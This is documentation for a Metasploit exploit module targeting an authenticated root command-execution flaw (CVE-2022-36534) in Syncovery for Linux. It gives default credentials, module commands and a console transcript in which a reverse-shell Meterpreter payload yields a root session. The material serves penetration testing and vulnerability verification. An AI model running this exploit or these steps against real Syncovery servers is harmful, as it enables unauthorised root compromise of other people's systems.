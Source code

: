 ## Vulnerable Application
[Syncovery For Linux with Web-GUI](https://www.syncovery.com/download/linux/)

This module exploits an authenticated remote code execution vulnerability (CVE-2022-36534)
in the Web GUI of Syncovery File Sync & Backup Software for Linux.
Syncovery allows an authenticated user to create jobs, which are executed before/after a profile is run.
Jobs can contain arbitrary system commands and will be executed as the user `root`.
A valid username and password or a session token is needed to exploit the vulnerability.

This affects Syncovery for Linux before v9.48j and all versions of the obsolete branch 8.

Installing a vulnerable version of Syncovery for Linux to test this vulnerability is quite easy.
Download a vulnerable version of Syncovery for Linux: https://www.syncovery.com/release/Syncovery-9.47a-amd64.deb
Install it and once the server is up, you can access it on port 8999 for testing...

## Authors

- Jan Rude (mgm security partners GmbH)

## Platforms

- Unix

## Verification Steps

1. `use exploit/unix/http/syncovery_linux_rce_2022_36534`
2. `set RHOSTS <TARGET HOSTS>`
3. `set LHOST <Address of Attacking Machine>`
4. `run`
5. You should get a meterpreter shell as the `root` user.

## Options

### USERNAME
Username used for login. Default is "default".

### PASSWORD
Password used for login. Default is "pass".

### TOKEN
Instead of using a username and password it is also possible to use an authentication token.
A valid token might be successfully brute-forced with the scanner module `syncovery_linux_token_cve_2022_36536`.

### TARGETURI
The path to Syncovery login.

### PORT
The (TCP) target port on which Syncovery is running. By default port 8999 is used for HTTP and port 8943 is used for HTTPS.

## Scenarios

### Syncovery for Linux with default credentials

```
msf > use exploits/unix/http/syncovery_linux_rce_2022_36534
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf exploit(unix/http/syncovery_linux_rce_2022_36534) > set rhosts 192.168.178.26
rhosts => 192.168.178.26
msf exploit(unix/http/syncovery_linux_rce_2022_36534) > set lhost 192.168.178.26
lhost => 192.168.178.26
msf exploit(unix/http/syncovery_linux_rce_2022_36534) > options

Module options (exploit/unix/http/syncovery_linux_rce_2022_36534):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   pass             yes       The password to Syncovery (default: pass)
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.178.26   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8999             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The path to Syncovery
   TOKEN                       no        A valid session token
   USERNAME   default          yes       The username to Syncovery (default: default)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.178.26   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Syncovery for Linux < 9.48j


msf exploit(unix/http/syncovery_linux_rce_2022_36534) > check
[+] 192.168.178.26:8999 - The target is vulnerable.
msf exploit(unix/http/syncovery_linux_rce_2022_36534) > run

[*] Started reverse TCP handler on 192.168.178.26:4444
[+] 192.168.178.26:8999 - Exploit successfully executed
[*] Sending stage (40132 bytes) to 192.168.178.26
[*] Meterpreter session 1 opened (192.168.178.26:4444 -> 192.168.178.26:38008) at 2022-09-06 13:44:13 +0200

meterpreter > sysinfo
Computer        : kali
OS              : Linux 5.16.0-kali7-amd64 #1 SMP PREEMPT Debian 5.16.18-1kali1 (2022-04-01)
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > getuid
Server username: root
```
